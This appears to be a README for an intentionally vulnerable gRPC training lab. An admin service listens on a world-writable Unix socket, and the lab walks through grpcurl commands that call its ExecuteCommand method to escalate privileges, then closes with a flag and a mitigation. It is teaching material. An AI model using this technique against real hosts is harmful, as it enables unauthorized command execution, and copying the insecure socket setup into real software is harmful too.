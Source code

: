 # Lab 006: Unix Socket World Writable

## Vulnerability
Admin gRPC service listening on Unix domain socket with world read/write permissions (0666).

## Objective
Connect to the Unix socket as any user to access privileged admin functions.

## Run the Lab
```bash
# Build and run
docker build -t grpc-006 .
docker run -it --rm grpc-006 sh

# In the container, the service will be running
# Check socket permissions
ls -la /tmp/grpc-admin.sock
```

## Exploit

### Step 1: Verify socket permissions
```bash
# Check the socket permissions
ls -la /tmp/grpc-admin.sock
# Should show: srw-rw-rw- (world writable)

# Check who can access it
stat /tmp/grpc-admin.sock
```

### Step 2: Connect as any user
```bash
# Install grpcurl in the container
apk add --no-cache go
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Connect via Unix socket to get system info
grpcurl -plaintext -unix /tmp/grpc-admin.sock admin.AdminService/GetSystemInfo

# Access admin command interface (shows privilege escalation)
grpcurl -plaintext -unix /tmp/grpc-admin.sock -d '{
  "command": "whoami"
}' admin.AdminService/ExecuteCommand
```

## Impact
Any user on the system can connect to the admin service and execute privileged operations.

## Flag
Successfully connect to get: `GRPC_GOAT{unix_socket_world_writable_privilege_escalation}`

## Mitigation
Set proper socket permissions (0600) and validate client credentials.